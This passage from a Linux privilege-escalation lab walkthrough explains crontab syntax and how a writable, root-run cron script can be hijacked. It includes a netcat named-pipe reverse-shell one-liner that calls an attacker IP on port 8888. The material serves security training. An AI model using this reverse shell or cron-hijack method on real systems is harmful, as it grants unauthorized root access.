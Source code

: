 h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as  

command = What command should be run  

For Example,  

**#  m   h dom mon dow user  command**  

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly  

**How can we exploit this?**

We know from our LinEnum scan, that the file autoscript.sh, on user4's Desktop is scheduled to run every five minutes. It is owned by root, meaning that it will run with root privileges, despite the fact that we can write to this file. The task then is to create a command that will return a shell and paste it in this file. When the file runs again in five minutes the shell will be running as root.

What directory is the 'autoscript.sh' under? 
`find / -type f -name autoscript.sh 2>/dev/null`
/home/user4/Desktop/autoscript.sh

mkfifo /tmp/saujr; nc 10.6.34.114 8888 0</tmp/saujr | /bin/sh >/tmp/saujr 2>&1; rm /tmp/saujr

**Further Learning**  

There is never a "magic" answer in the huge area that is Linux Privilege Escalation. This is simply a few examples of basic things to watch out for when trying to escalate privileges_._The only way to get better at it, is to practice and build up experience. Checklists are a good way to make sure you haven't missed anything during your enumeration stage, and also to provide you with a resource to check how to do things if you forget exactly what commands to use.  

Below is a list of good checklists to apply to CTF or penetration test use cases.Although I encourage you to make your own using CherryTree or whatever notes application you prefer.  

- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

**Thank you**  

Thanks for taking the time to work through this room, I wish you the best of luck in future.

~ Polo  

Answer the questions below
